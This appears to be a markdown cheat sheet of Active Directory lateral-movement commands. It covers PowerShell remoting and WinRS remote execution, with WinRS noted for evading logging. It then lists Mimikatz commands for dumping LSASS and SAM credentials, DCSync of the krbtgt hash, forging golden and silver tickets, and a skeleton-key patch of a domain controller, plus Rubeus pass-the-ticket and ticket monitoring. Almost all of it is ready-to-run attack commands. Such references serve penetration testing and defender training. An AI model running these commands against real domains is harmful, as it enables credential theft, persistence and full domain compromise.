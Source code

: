 ## AD Lateral Movement

- [PowerShell Remoting](#powershell-remoting)
  * [Enable PowerShell Remoting](#enable-powershell-remoting)
  * [Create Remote Session](#create-remote-session)
  * [Entering into Existing PSSession](#entering-into-existing-pssession)
  * [Remote Execution](#remote-execution)
- [WinRS](#winrs)
  * [Execute Remote Command](#execute-remote-command)
- [MimiKatz PowerShell Port](#mimikatz-powershell-port)
  * [Dump Credentials on Local Machine](#dump-credentials-on-local-machine)
  * [Extract credentials from SAM](#extract-credentials-from-sam)
  * [OverPass the Hash](#overpass-the-hash)
  * [Get KRBTGT Hash](#get-krbtgt-hash)
  * [Credential Vault](#credential-vault)
  * [Golden Ticket](#golden-ticket)
  * [Silver Ticket](#silver-ticket)
  * [Skeleton Key Attack](#skeleton-key-attack)
  * [Export Tickets](#export-tickets)
  * [Pass The Ticket](#pass-the-ticket)
- [Rubeus](#rubeus)
  * [OverPass The Hash](#overpass-the-hash)
  * [Pass the Ticket](#pass-the-ticket)


### PowerShell Remoting
---
> tcp/5985
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

#### Enable PowerShell Remoting  
```powershell
C:> Enable-PSRemoting 
```
#### Create Remote Session 
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
#### Entering into Existing PSSession
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
#### Remote Execution
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
#### Execute Remote Command
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
#### Dump Credentials on Local Machine
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
#### Extract credentials from SAM
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
#### OverPass the Hash
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<fqdn_domain> /aes256:<user_aes256key> /run:cmd.exe"'
```
#### Get KRBTGT Hash
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
# DCsync for another domain
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt /domain:<fqdn_domain>" "exit"'
```
#### Credential Vault
```powershell
# Interesting Credentials are stored here, like credentials for scheduled tasks
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
#### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:<username> /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# For Administrator User
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
#### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator on host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# With this two tickets, can execute WMI commands on host
```
#### Skeleton Key Attack
```powershell
# To run on DC. Allows init session with password mimikatz
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Patches lsass to allow login to any username using 'mimikatz' as passwd
```
#### Export Tickets
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"' 
```
#### Pass The Ticket
```powershell
C:> Invoke-Mimikatz -Command "kerberos::ptt <KirbiFile>"
```
### Rubeus
---
#### OverPass The Hash
```powershell
C:> Rubeus.exe asktgt /user:<username> /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
C:> Rubeus.exe asktgt /user:<username> /ntlm:<ntlm_rc4_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
#### Pass the Ticket
```powershell
C:> Rubeus.exe ptt /ticket:<base64_TGT>
```
#### Lilsten for Tickets from User or Computer
```powershell
C:> Rubeus.exe monitor /targetuser:<HOST>$ /interval:5 /nowrap
C:> Rubeus.exe monitor /targetuser:<user> /interval:5 /nowrap
```
